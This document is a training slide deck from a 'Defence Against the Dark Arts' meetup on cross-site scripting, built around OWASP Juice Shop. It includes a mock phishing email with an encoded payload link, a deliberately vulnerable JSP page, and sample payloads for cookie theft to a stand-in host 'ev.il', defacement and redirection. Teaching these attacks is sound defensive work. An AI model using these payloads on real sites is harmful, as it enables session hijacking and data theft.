

# Defence Against the Dark Arts

> #3: London, 13th February, 2020

---

## Purpose

> A place where we can practice the techniques used to attack applications,
in order to understand them, and to defend against them.

---

## Session rules

 * There are no stupid questions!
 * If you'd like to share (or learn) more about a topic by leading a session, let us know!
 * Participate as you would in a pairing session

---

## Important rule!

*Get permission* before attacking a system

Or, attack your own.

---

# Cross-Site Scripting (XSS)

---

## What is it?

* An attacker uses XSS to send a script to an unsuspecting user
* The end-user's browser has *no way to know the script should not be trusted*, and will execute it

---

## Root Cause

* Web applications vulnerable to XSS...

   * include untrusted data (usually from an HTTP request) into dynamic content
   * that is then sent to a web user without previously validating for malicious content

---

## Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect the user to a malicious site

---

## Typical Phishing Email

<small style="text-align: left">
Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize
**now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)

Sincereely yours,

Bjorn Kimminich CEO of Juice Shop Inc.

<small><small>_Juice Shop Inc. is registered as a bla bla bla bla yadda
yadda yadda more assuring legal bla All logos and icons are trademarks
of Juice Shop Inc. Copyright (c) 2018 Juice Shop
Inc._</small></small></small>

---

## Risk Rating

* Exploitability: Easy
* Prevalence: Widespread
* Detectability: Easy
* Impact: Moderate

---

## Vulnerable Code Example

```
<!--search.jsp-->

<%String searchCriteria = request.getParameter("searchValue");%>
```

might forward to the following page when executing the search:

```
<!--results.jsp-->

Search results for <b><%=searchCriteria%></b>:

<table>
<!-- Render the actual results table here -->
</table>
```

---

## Benign Usage

` https://my-little-application.com/search.jsp?searchValue=blablubb `

results in the following HTML on the `results.jsp` page:

```html
Search results for <b>blablubb</b>:
```

rendering as:

<hr>

Search results for <b>blablubb</b>:

---

## Exploit Example (HTML Injection)

` .../search.jsp?searchValue=</b><b> `

results in the following on the `results.jsp` page:

```html
Search results for
  <b></b><b></b>:
```

rendering as:

<hr>

Search results for <b></b><b></b>:

---

## XSS Attack Payload Examples

#### Stealing User Session

```
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```
<script>window.location.assign("http://ev.il");</script>
```

---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user
  input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is
  viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications
  dynamically include attacker-controllable data to a page

The previous example vulnerability and exploit of
`results.jsp` is a typical Reflected XSS.

---

## Reflected XSS


---

## Stored XSS



---

## DOM XSS


---

## Challenge

1. Identify places where user input is _directly_ included in the output
2. Perform a successful _Reflected XSS_ attack (1 star)
3. Perform a successful _DOM XSS_ attack (1 star)

_Make sure that you really understand the subtle difference
between those two underlying vulnerabilities._

---
